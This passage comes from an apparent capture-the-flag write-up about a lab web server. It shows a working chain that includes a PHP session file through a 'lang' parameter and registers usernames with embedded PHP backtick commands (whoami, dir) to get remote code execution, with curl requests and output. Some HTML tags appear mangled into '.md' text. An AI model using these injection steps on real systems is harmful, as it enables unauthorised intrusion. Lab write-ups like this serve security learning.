 
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr' | tail

    </body>

    <.md>
    username|s:4:"oxdf";</body>
    <.md>



Next I tried to register as:



    <?php system("whoami") ?>



But when I tried to log in, I get rejected:

![](/img/1570739618691.png)

There must be some filtering going on at registration. After some
playing around, I got this username to login:



    a<?php echo `whoami` ?>b



And when I get the session, I can see the results:



    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr' | tail

    </body>

    <.md>
    username|s:24:"ant authority\iusr
    b";</body>
    <.md>



I can now register the following to run a `dir` in the working
directory:



    a<?php echo `dir` ?>b



Returns (I'll just show the part I care about, and cut out the
surrounding.md):



     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640

     Directory of C:\inetpub\wwwroot\blog

